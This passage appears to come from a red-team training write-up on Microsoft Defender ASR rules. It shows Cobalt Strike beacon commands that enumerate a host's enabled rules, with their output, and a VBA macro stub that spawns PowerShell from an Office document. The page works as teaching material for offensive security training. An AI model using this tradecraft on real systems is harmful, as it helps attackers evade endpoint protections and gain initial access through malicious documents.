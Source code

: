 ### Registry

To read from a local registry, simply query **HKLM**:
```
beacon> reg query x64 HKLM\Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR

ExploitGuard_ASR_Rules   1

beacon> reg query x64 HKLM\Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules

d4f940ab-401b-4efc-aadc-ad5f3c50688a 1
9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2 1
75668c1f-73b5-4cf0-bb93-3ecf5cb7cc84 1
d1e49aac-8f56-4280-b9ba-993a6d77406c 1
92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b 1
```

### PowerShell
```
beacon> powerpick Get-MpPreference | select -expand AttackSurfaceReductionRules_Ids

75668c1f-73b5-4cf0-bb93-3ecf5cb7cc84
92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2
d1e49aac-8f56-4280-b9ba-993a6d77406c
d4f940ab-401b-4efc-aadc-ad5f3c50688a

beacon> powerpick Get-MpPreference | select -expand AttackSurfaceReductionRules_Actions

1
1
1
1
1
```

# Block Child Process

_"This rule blocks Office apps from creating child processes. This includes Word, Excel, PowerPoint, OneNote, and Access.**"**_

In the [Red Team Ops](https://training.zeropointsecurity.co.uk/courses/2) course, students create macro-enabled documents that spawn and run a PowerShell payload.  The VBA looks something like this:
```vb
Sub Exec()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    wsh.Run "powershell"
    Set wsh = Nothing
End Sub
```
